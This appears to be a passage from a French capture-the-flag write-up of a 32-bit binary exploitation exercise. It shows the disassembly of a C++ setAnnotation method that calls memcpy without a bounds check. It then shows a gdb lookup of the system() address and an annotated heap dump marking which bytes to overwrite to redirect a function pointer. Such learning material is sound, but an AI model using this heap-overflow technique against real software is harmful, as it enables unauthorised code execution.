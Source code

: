 ```
 804870d:     90                    nop

0804870e <_ZN1N13setAnnotationEPc>:
 804870e:     55                    push   %ebp
 804870f:     89 e5                 mov %esp,%ebp
 8048711:     83 ec 18              sub $0x18,%esp
 8048714:     8b 45 0c              mov 0xc(%ebp),%eax
 8048717:     89 04 24              mov %eax,(%esp)
 804871a:     e8 01 fe ff ff        call   8048520 <strlen@plt>
 804871f:     8b 55 08              mov 0x8(%ebp),%edx
 8048722:     83 c2 04              add $0x4,%edx
 8048725:     89 44 24 08           mov %eax,0x8(%esp)
 8048729:     8b 45 0c              mov 0xc(%ebp),%eax
 804872c:     89 44 24 04           mov %eax,0x4(%esp)
 8048730:     89 14 24              mov %edx,(%esp)
 8048733:     e8 d8 fd ff ff        call   8048510 <memcpy@plt>
 8048738:     c9                    leave
 8048739:     c3                    ret
 ```
## Méthode spécifique au binary

**Adresse de la fonction system :**

```
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7d86060 <system>
```

Donc : `0xb7d86060` => `\x60\x60\xd8\xb7`

Avec `b *0x08048698` (= fin de main), on peut regarder la mémoire de la variable utilisé pour memcpy :

```
(gdb) x/40xb 0x804a000

0x804a000:    0x00  0x00  0x00  0x00  0x71  0x00  0x00  0x00
       vv       08    09    0a    0b    0c
0x804a008:    0x48  0x88  0x04  0x08  0x41  0x41  0x41  0x41
0x804a010:    0x41  0x41  0x41  0x41  0x41  0x41  0x41  0x41
0x804a018:    0x41  0x41  0x41  0x41  0x41  0x41  0x41  0x41
0x804a020:    0x41  0x41  0x41  0x41  0x41  0x41  0x41  0x41
[...]
0x804a050:    0x00  0x00  0x00  0x00  0x00  0x00  0x00  0x00
0x804a058:    0x00  0x00  0x00  0x00  0x00  0x00  0x00  0x00
0x804a060:    0x00  0x00  0x00  0x00  0x00  0x00  0x00  0x00
0x804a068:    0x00  0x00  0x00  0x00  0x00  0x00  0x00  0x00
       vv       71    72    73    74
0x804a070:    0x05  0x00  0x00  0x00  0x71  0x00  0x00  0x00
                                        60    60    d8    b7
0x804a078:    0x48  0x88  0x04  0x08  0x00  0x00  0x00  0x00
                74    a0    04    08    3b    2f    62     …
0x804a080:    0x00  0x00  0x00  0x00  0x00  0x00  0x00  0x00
```
